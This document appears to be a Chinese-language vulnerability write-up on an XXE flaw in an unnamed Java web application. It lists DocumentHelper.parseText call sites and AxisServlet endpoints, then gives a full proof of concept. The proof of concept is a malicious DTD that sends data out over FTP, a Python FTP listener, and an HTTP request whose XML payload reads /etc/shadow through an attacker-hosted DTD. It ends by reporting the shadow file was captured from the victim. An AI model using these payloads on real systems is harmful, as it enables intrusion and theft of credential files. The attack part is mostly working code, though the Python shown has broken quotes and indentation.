


## XXE 审计与利用思路

第一处出现在系统使用的org.dom4j.DocumentHelper调用的类函数下。

在源码中搜索关键字DocumentHelper.parseText

得到：

```
\xxx\***\***.java 
Line 303:    document = DocumentHelper.parseText(xml);

\xxx***\XmlParser.java

Line 51:    Document doc = DocumentHelper.parseText(xmlStr);

\xxx******Task.java

Line 350:    Document document = DocumentHelper.parseText(result);

\xxx******Action.java

Line 237:    Document document = DocumentHelper.parseText(mapDataForOut);

\xxx***\xxxAction.java

Line 259:    Document document = DocumentHelper.parseText(mapDataForOut);

\xxx***\xxx.java

Line 120:    Document doc = DocumentHelper.parseText(policyXml.replaceAll("_lnx", “”));

Line 125:    doc = DocumentHelper.parseText(node.asXML());

\xxx***tion.java

Line 109:    Document doc = DocumentHelper.parseText(xmlStr);

\xxx***.java

Line 58:    doc = DocumentHelper.parseText(xml); // 将字符串转为XML

\xxx***.java

Line 92:    doc = DocumentHelper.parseText(xml);

Line 97:    oldDoc = DocumentHelper.parseText(vaildXml);

\xxx***ObjConverter.java

Line 173:     Document document = DocumentHelper.parseText(xml);

\xxx***.java

Line 949:     doc = DocumentHelper.parseText(infor.getContent());

\xxx***Utility.java

Line 1203:     Document doc = DocumentHelper.parseText(result);

\xxx***xxxService.java

Line 177:     Document doc = DocumentHelper.parseText(requestHeader);

\xxx***\EventParser.java

Line 83:    Document doc = DocumentHelper.parseText(xmlStr);

Line 185:    Document doc = DocumentHelper.parseText(xmlStr);

Line 229:    Document doc = DocumentHelper.parseText(xmlStr);

Line 306:    DocumentHelper.parseText(contentXml)).replaceAll("<", “&lt;”).replaceAll(">", “&gt;”).replaceAll("==amp;",

\xxx***\XMLMessageUtil.java

Line 24:    doc = DocumentHelper.parseText(xml);

Line 131:    tempDoc = DocumentHelper.parseText(xml);

Line 224:    document = DocumentHelper.parseText("<a><b></b></a>");

\xxx***\XmlParser.java

Line 51:    Document doc = DocumentHelper.parseText(xmlStr); `\xxx***.java

Line 244:    Document doc = DocumentHelper.parseText(xmlStr);` 
```

其中，`\xxx\***\XMLMessageUtil.java`


代码中 使用org.dom4j.DocumentHelper.parseTest解析XML文件

第二处，发现位置是在查看web.xml文件中AxisServlet的servlet-mapping配置，发现URL地址包含以下路径或后缀就可被攻击利用

```
***\WebRoot\WEB-INF\web.xml 
xxx\***\WebRoot\WEB-INF\web.xml
<servlet-mapping>
<servlet-name>AxisServlet</servlet-name>
       <url-pattern>/servlet/AxisServlet</url-pattern>
   </servlet-mapping>  
   <servlet-mapping>
       <servlet-name>AxisServlet</servlet-name>
       <url-pattern>*.jws</url-pattern>
   </servlet-mapping>
   <servlet-mapping>
       <servlet-name>AxisServlet</servlet-name>
       <url-pattern>/services/*</url-pattern>
   </servlet-mapping> 
```

在通过访问以下URL即可访问到AxisServlet服务，可对其进行XXE漏洞攻击。

```
https://www.0-sec.org/xxx/servlet/AxisServlet
https://www.0-sec.org/***/servlet/AxisServlet 
```

### poc

0x1:

在复现时由于目标主机无法访问外网，所以需要在本地主机上搭建测试环境，具体的复现过程如下（嗯额这里感谢一下同事）：

*   1）新建目录xxe_test，复制下面文件放入

test.dtd

```
<!ENTITY % param3 "<!ENTITY &#x25; exfil SYSTEM 'ftp://ip/%data3;'>"> 
```

*   2)在xxe_test目录下运行如下命令，监听8080端口（检查防火墙是否开放该端口）

Python -m SimpleHTTPServer 8080

*   3)运行以下脚本，启动ftp服务器（检查防火墙是否开放21端口）

> Python xxe-ftp.py

```
#!/usr/env/python
from __future__ import print_function
import socket

s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)

s.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)

s.bind((‘0.0.0.0’,21))

s.listen(1)

print(‘XXE-FTP listening ‘)

conn,addr = s.accept()

print(‘Connected by %s’,addr)

conn.sendall(‘220 Staal XXE-FTP\r\n’)

stop = False

while not stop:

dp = str(conn.recv(1024))

if dp.find(“USER”) > -1:

conn.sendall(“331 password please - version check\r\n”)

else:

conn.sendall(“230 more data please!\r\n”)

if dp.find(“RETR”)==0 or dp.find(“QUIT”)==0:

stop = True

if dp.find(“CWD”) > -1:

print(dp.replace(‘CWD ‘,’/’,1).replace(’\r\n’,’’),end=’’)

else:

print(dp) `conn.close()

s.close()` 
```

*   4)发送以下报文：

```
POST /xxx/*** HTTP/1.1
Host: www.0-sec.org
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:56.0) Gecko/20100101 Firefox/56.0
Accept: application/json, text/javascript, */*
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
X-Requested-With: XMLHttpRequest
Referer: https://target_ip/xxx/***.jsp
ContentType: pplication/x-www-form-urlencoded
Cookie: JSESSIONID=WwV5E_ZpZVWhnIKEaFuuphs1.localhost; ops.cookie.principal=xxxxx
DNT: 1
Connection: close
Content-Type: text/xml
Content-Length: 159 `<?xml version=“1.0”?>

<!DOCTYPE r [

<!ENTITY % data3 SYSTEM “file:///etc/shadow”>

<!ENTITY % sp SYSTEM “http://Your_IP/test.dtd”>

%sp;

%param3;

%exfil;

]>` 
```



**漏洞截图**：

0x1:

成功获取到受害主机的/etc/shadow文件

